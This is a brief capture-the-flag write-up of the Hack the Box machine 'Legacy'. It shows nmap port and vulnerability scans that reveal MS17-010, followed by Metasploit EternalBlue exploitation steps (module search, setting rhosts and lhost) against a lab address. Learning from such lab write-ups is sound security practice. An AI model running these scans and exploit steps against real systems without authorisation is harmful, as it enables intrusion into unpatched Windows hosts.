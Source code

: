 ```yaml
---
title: Legacy
date: 2021-01-21
excerpt: "'Legacy' is an easy rated box on Hack the Box. We'll be using Nmap's scripting engine to detect a vulnerability and Metasploit to exploit it."
classes: wide
categories: HackTheBox
tags:
  - htb
  - ms17-010
  - eternalblue
  - metasploit
  - nse
---
```


![img](/assets/images/htb/legacy/head.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

My initial all ports scan showed `139`, `445` and `3389` open. So I targeted those in my targets scan.

`nmap -p 139,445,3389 -oN targeted -Pn -T4 -A 10.10.10.4`


![img](/assets/images/htb/legacy/0.png)

Also ran a script scan using the `--script=vuln` switch

`nmap -Pn 10.10.10.4. -p 139,445 --script=vuln`


![img](/assets/images/htb/legacy/1.png)

Interesting...

---

### Access (Metasploit, ms17-010)
* Reading/Resources
  * [Metasploit](https://www.exploit-db.com/docs/english/44040-the-easiest-metasploit-guide-you%E2%80%99ll-ever-read.pdf)
  * [EternalBlue (ms17-010)](https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf)

Let's follow up on **ms17-010** lead from nmap using **metasploit**.

`msfconsole`
`search ms17-010`


![img](/assets/images/htb/legacy/2.png)

Set your options:

`set rhosts 10.10.10.4`
`set lhost tun0`

Fire!


![img](/assets/images/htb/legacy/3.png)

That was easy. Capture the flags.


![img](/assets/images/htb/legacy/4.png)


![img](/assets/images/htb/legacy/5.png)
